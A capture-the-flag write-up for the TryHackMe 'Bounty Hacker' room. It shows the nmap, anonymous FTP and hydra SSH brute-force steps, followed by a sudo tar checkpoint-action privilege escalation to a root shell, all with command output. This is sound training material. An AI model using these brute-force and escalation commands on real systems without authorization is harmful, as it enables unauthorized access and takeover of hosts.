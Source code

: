 <p align="center">
  THM : Bounty Hacker<br>
  Difficulty : Easy<br>
  <img src="https://i.imgur.com/VnkgDn8.jpg">
</p>

## Summary

- [Nmap scan](#nmap-scan)
- [FTP enumeration](#ftp-enumeration)
- [SSH bruteforce](#ssh-bruteforce)
- [Privilege escalation](#privilege-escalation)
- [Conclusion](#conclusion)

## Nmap scan

Let's run an agressive [nmap](https://nmap.org/) scan against the target :  
```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-10-21 17:51 CEST
Nmap scan report for 10.10.198.38
Host is up (0.063s latency).
Not shown: 55529 filtered ports, 10003 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.14.32.60
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 124.93 seconds
```

- FTP port is open and anonymous login is allowed (port 21)
- SSH port is open (port 22)
- A webserver is running on the target (port 80)

## FTP enumeration

Let's login to the FTP service as `anonymous` and see what files we can find :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ ftp 10.10.198.38
Connected to 10.10.198.38.
220 (vsFTPd 3.0.3)
Name (10.10.198.38:attacker): anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
-rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
226 Directory send OK.
```

Let's get those files on our attacker machine and see what's inside :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ cat locks.txt 
rEddrAGON
ReDdr4g0nSynd!cat3
Dr@gOn$yn9icat3
R3DDr46ONSYndIC@Te
ReddRA60N
R3dDrag0nSynd1c4te
dRa6oN5YNDiCATE
ReDDR4g0n5ynDIc4te
R3Dr4gOn2044
RedDr4gonSynd1cat3
R3dDRaG0Nsynd1c@T3
Synd1c4teDr@g0n
reddRAg0N
REddRaG0N5yNdIc47e
Dra6oN$yndIC@t3
4L1mi6H71StHeB357
rEDdragOn$ynd1c473
DrAgoN5ynD1cATE
ReDdrag0n$ynd1cate
Dr@gOn$yND1C4Te
RedDr@gonSyn9ic47e
REd$yNdIc47e
dr@goN5YNd1c@73
rEDdrAGOnSyNDiCat3
r3ddr@g0N
ReDSynd1ca7e
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ cat task.txt 
1.) Protect Vicious.
2.) Plan for Red Eye pickup on the moon.

-lin
```

We have a possible username `lin`. The file `locks.txt` seems to be a password list.

**Question : Who wrote the task list ?**  
**Answer : lin**  

## SSH bruteforce

Since we have a username `lin` and a password list, we can try to brute force some services on the target. Let's try with `SSH` first using [hydra](https://github.com/vanhauser-thc/thc-hydra) :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ hydra -l lin -P locks.txt 10.10.198.38 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-10-21 18:04:53
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 26 login tries (l:1/p:26), ~2 tries per task
[DATA] attacking ssh://10.10.198.38:22/
[22][ssh] host: 10.10.198.38   login: lin   password: RedDr4gonSynd1cat3
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-10-21 18:04:56
```

We successfully brute forced `lin`'s SSH password !

**Question : What service can you bruteforce with the text file found ?**  
**Answer : SSH**  

**Question : What is the users password ?**  
**Answer : RedDr4gonSynd1cat3**  

Now let's login to SSH using the credentials we found :  
```
attacker@AttackBox:~/Documents/THM/CTF/Bounty_Hacker$ ssh lin@10.10.198.38
The authenticity of host '10.10.198.38 (10.10.198.38)' can't be established.
ECDSA key fingerprint is SHA256:fzjl1gnXyEZI9px29GF/tJr+u8o9i88XXfjggSbAgbE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.198.38' (ECDSA) to the list of known hosts.
lin@10.10.198.38's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

83 packages can be updated.
0 updates are security updates.

Last login: Sun Jun  7 22:23:41 2020 from 192.168.0.14
lin@bountyhacker:~/Desktop$
```

Let's get the user flag :  
```
lin@bountyhacker:~/Desktop$ ls -la
total 12
drwxr-xr-x  2 lin lin 4096 Jun  7  2020 .
drwxr-xr-x 19 lin lin 4096 Jun  7  2020 ..
-rw-rw-r--  1 lin lin   21 Jun  7  2020 user.txt
lin@bountyhacker:~/Desktop$ cat user.txt
THM{*******************}
```

## Privilege escalation

It's time to escalate our privileges. Let's take a look at our sudo rights :  
```
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

We can run tar as root. We can search for `tar` on [GTFOBins](https://gtfobins.github.io/) :  
![](https://i.imgur.com/AS8xbPU.jpg)  

Let's use this exploit and get a root shell :  
```
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
```

We are root ! Let's get the root flag :  
```
# cd /root
# ls -la
total 40
drwx------  5 root root 4096 Jun  7  2020 .
drwxr-xr-x 24 root root 4096 Jun  6  2020 ..
-rw-------  1 root root 2694 Jun  7  2020 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Feb 26  2019 .cache
drwxr-xr-x  2 root root 4096 Jun  7  2020 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   19 Jun  7  2020 root.txt
-rw-r--r--  1 root root   66 Jun  7  2020 .selected_editor
drwx------  2 root root 4096 Jun  7  2020 .ssh
# cat root.txt
THM{**************}
#
```

## Conclusion

This CTF was very easy and simple. I think it is a very good CTF for very beginners.
We practiced : 
- Ports/Services enumeration using [nmap](https://nmap.org/)
- FTP enumeration using `anonymous` login
- SSH bruteforce using [hydra](https://github.com/vanhauser-thc/thc-hydra)
- Basic linux enumeration
- Basic privilege escalation

Thanks for this room and thanks for reading my write ups !
